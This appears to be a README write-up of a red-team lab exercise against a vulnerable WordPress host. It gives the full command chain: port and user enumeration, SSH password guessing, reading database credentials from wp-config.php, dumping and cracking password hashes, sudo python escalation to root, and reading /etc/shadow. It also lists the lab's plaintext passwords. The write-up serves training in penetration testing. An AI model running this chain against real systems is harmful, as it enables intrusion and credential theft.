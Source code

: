 # Reven_Security


## Red Team: Summary of Operations
Table of Contents:

* Reconnaissance Phase
* Service Abuse 
* Lateral Movement 
* Privilege Escalation
* Critical Vulnerabilities 

# Reconnaissance Phase: it is all about Enumeration!

During the reconnaissance phase on the Target, we used different tools to collect and gather important information about the target.

Tools used during the reconnaissance phase: Nmap, dirb, and wpscan 


We used Nmap to scan the target and enumerate the open ports 

Command used to scan Target 1 Machine: ` nmap -sV -sC 192.168.1.110 `

<img src="/Red Team Summary of Operations/Images/nmap.png" >

This scan identifies the services below as potential points of entry:

|  Port | Service  | 
|---|------|
| 22 |  SSH | 
| 80  | HTTP  |  
| 111  |  rcpbind | 
| 139  | NetBIOS |
| 445 | NetBIOS |

After discovering that the target is a web application running on port 80 we used dirb to enumerate the web application hidden directory.

<img src="/Red Team Summary of Operations/Images/website.png">

Command used: `dirb http://192.168.1.110 /usr/share/dirb/wordlist/small.txt`

<img src="/Red Team Summary of Operations/Images/dirb.png">
     
Using dirb give us new information that website running on WordPress, so we used wpscan to enumerate the users. 


Command used: `wpscan -url 192.168.1.110/wordpress -enumerate u `

<img src="/Red Team Summary of Operations/Images/users_enum2.png">


## Service Abuse: 
During our reconnaissance phase we found out that SSH service is open on port 22 and we discover two users michael and steven, so we abuse this two information we have and try to guess the password of one of the users.

Command used: `ssh michael@192.168.1.110`
password: `michael `

Since we were inside the target machine we were able to collect the first two flags: 
Command used for flag1: 

* `grep -lr flag1 /var/www `
* `cat /var/www/html/service.html | grep flag1 `

<img src="/Red Team Summary of Operations/Images/flag1.png">

Command used for flag2: 

* `locate flag2.txt`
 
* `cat /var/www/flag2.txt`



## Lateral Movement: 
With Michael's credentials we were able to navigate through the file system of the target machine and revealed the root username and password for MySQL database.
File Path: /var/www/html/wordpress/wp-config.php
Next, we logged into MySQL and dumped the WordPress user password hashes using the password R@v3nSecurity :
Command used:
mysql -u root -p 
show DATABASES;
use wordpress;
show tables;
select user_login,user_pass from wp_users;  


we got flag3.txt also by
mysql -u root -p 
show DATABASES;
use wordpress;
show tables;
Select * from wp_posts;


Now we have the password hash for steven, we used john to crack the password hash
Command used: john hash1.txt -w=rockyou.txt  
Privilege Escalation
With steven password:pink84, we logged into the target machine again and checked his sudo privileges and discovered he had sudo right for python. We escalated our privileges from steven to root using python script. 
Command used: 
ssh steven@192.168.1.110 
sudo -l 
python -c 'import pty;pty.spawn("/bin/bash");'
locate flag4.txt 
cat /root/flag4.txt

flag4.txt

As root user, we dumped all user hashes including the root user hash:
Command used: cat /etc/shadow
Critical Vulnerabilities Discover During Our Engagement: 
No firewall rule to block Nmap port scanning 
Web application Directory enumeration 
WordPress enumeration
Poor SSH configuration 
Weak Password policies 
No file security permission implementation for critical files system  
Sudo rights for python used to escalate privilege to root 
